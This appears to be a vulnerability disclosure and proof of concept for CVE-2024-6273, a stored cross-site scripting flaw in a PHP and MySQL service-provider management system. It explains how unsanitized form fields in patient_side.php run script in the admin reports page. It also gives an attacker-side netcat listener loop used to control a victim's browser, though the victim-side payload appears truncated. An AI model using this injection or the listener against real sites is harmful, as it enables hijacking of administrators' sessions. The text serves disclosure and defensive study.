

# CVE-2024-6273 - Stored Cross Site Scripting by an Unauthenticated User

**Researcher Name:** Guru Raghav Saravanan

**Product:** Service Provider Management System using PHP and MySQL

**Vulnerability:** Stored Cross Site Scripting by an Unauthenticated User

**POC:**
The vulnerability is present in **patient_side.php**. The input fields Full Name, Contact and Address does not sanitize the user input which leads to Stored Cross Site Scripting.

The **save_patient()** function in **master.php** does not sanitize the input before saving.

**patient_side.php**

**master.php**

Endpoint: https://<vulnerable_site>/patient_side

Clicking on Submit, the form is submitted to the administrator and can only be viewed by the admin.

Now to view the submitted form, login as admin and click on the reports section.

All the stored XSS gets executed…

**Leveraging reverse_connection:**

**Payload:**
**Attacker-Side:** `while :; do printf "sgr>$ "; read c; echo $c | nc -vvlp 4444 >/dev/null; done` 

**Victim-Side:** `">`

Start the listener

Visit the reports page now…

Reverse connection received in the attacker machine.

